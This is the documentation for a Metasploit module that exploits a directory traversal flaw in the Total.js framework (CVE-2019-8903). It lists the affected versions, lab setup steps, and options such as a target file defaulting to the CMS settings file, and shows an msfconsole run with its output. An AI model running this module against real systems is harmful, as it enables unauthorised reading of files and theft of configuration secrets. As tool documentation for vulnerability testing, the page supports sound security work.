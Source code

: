 ## Description

This module check and exploits a Directory Traversal vulnerability in Total.js framework < 3.2.4 (CVE-2019-8903). Here is a list of accepted extensions: flac, jpg, jpeg, png, gif, ico, js, css, txt, xml, woff, woff2, otf, ttf, eot, svg, zip, rar, pdf, docx, xlsx, doc, xls, html, htm, appcache, manifest, map, ogv, ogg, mp4, mp3, webp, webm, swf, package, json, md, m4v, jsx, heif, heic.

## Vulnerable Application

Affecting total.js package, versions:

* >=2.1.0 <2.1.1
* >=2.2.0 <2.2.1
* >=2.3.0 <2.3.1
* >=2.4.0 <2.4.1
* >=2.5.0 <2.5.1
* >=2.6.0 <2.6.3
* >=2.7.0 <2.7.1
* >=2.8.0 <2.8.1
* >=2.9.0 <2.9.5
* >=3.0.0 <3.0.1
* >=3.1.0 <3.1.1
* >=3.2.0 <3.2.4

## Verification Steps

1. On a Node v8 environment do: `npm install total.js@3.2.3`
2. Install an app on top of the Total.js framework, something like [Total.js CMS](https://github.com/totaljs/cms)
  * `git clone https://github.com/totaljs/cms.git`
  * `cd cms && npm install`
3. Start `msfconsole`
4. `use auxiliary/scanner/http/totaljs_traversal`
5. `set RHOST <IP>`
6. `set RPORT <PORT>`
7. `run`
8. Verify you get Total.js version if the target is vulnerable!

## Options

* **TARGETURI**: Path to Total.js App installation (“/” is the default)
* **DEPTH**: Traversal depth (“1” is the default)
* **FILE**: File to obtain (“databases/settings.json” is the default for Total.js CMS App)

## Scenario

### Tested on Total.js framework 3.2.0 and Total.js CMS 12.0.0

```
msf5 > use auxiliary/scanner/http/totaljs_traversal 
msf5 auxiliary(scanner/http/totaljs_traversal) > set RHOST 192.168.2.59
RHOST => 192.168.2.59
msf5 auxiliary(scanner/http/totaljs_traversal) > set RPORT 8320
RPORT => 8320
msf5 auxiliary(scanner/http/totaljs_traversal) > run
[*] Running module against 192.168.2.59

[*] Total.js version is: ^3.2.0
[*] App name: CMS
[*] App description: A simple and powerful CMS solution written in Total.js / Node.js.
[*] App version: 12.0.0
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/totaljs_traversal) >
```
